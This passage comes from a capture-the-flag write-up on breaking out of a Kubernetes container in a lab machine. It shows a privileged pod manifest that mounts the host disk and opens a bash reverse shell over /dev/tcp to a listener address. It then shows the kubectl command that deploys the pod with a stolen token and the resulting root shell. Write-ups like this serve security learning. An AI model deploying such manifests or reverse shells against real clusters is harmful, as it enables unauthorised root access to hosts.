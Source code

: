 Well, we need a device name (volume/disk) so we can mount the host filesystem. This completely flew over my head but my friend saved me (REALLY) <br>

We managed to get the host volume by using **df** 
```bash
cmd: df -a
-- snip --
/dev/sda2       13867048 8791412   4917708  65% /dev/termination-log
/dev/sda2       13867048 8791412   4917708  65% /etc/resolv.conf
/dev/sda2       13867048 8791412   4917708  65% /etc/hostname
/dev/sda2       13867048 8791412   4917708  65% /etc/hosts
-- snip --
```

Well, we now have it all folks !!! lets fill the template 
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: wazapod
spec:
  containers:
  - name: waza
    image: localhost:5000/node_server
    command: ["/bin/bash"]
    args: ["-c", "mkdir /root_mount; mount /dev/sda2 /root_mount; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.62/1414 0>&1;'"]
    securityContext:
      privileged: true
  hostNetwork: true
```
and execute it
```bash
# apply the pod config
cmd: kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=dev-files/ca.cert apply -f ./malicious_pod.yaml
pod/wazapod created

# at another tmux pane
cmd$local: nc -lvvnp 1414
connect to [10.10.16.62] from (UNKNOWN) [10.10.10.235] 43732
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
cmd$remote: whoami && id
root
uid=0(root) gid=0(root) groups=0(root)

cmd$remote: ls -la /root_mount/root/
# -- snip-- 
drwxr-xr-x 10 root root 4096 Jan 17 06:23 .minikube
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwxr-xr-x  1 root root 3300 Feb 15 18:34 pod_cleanup.py
-rw-r--r--  1 root root   33 May 11 04:18 root.txt

cmd$remote: cat /root_mount/root/root.txt

```
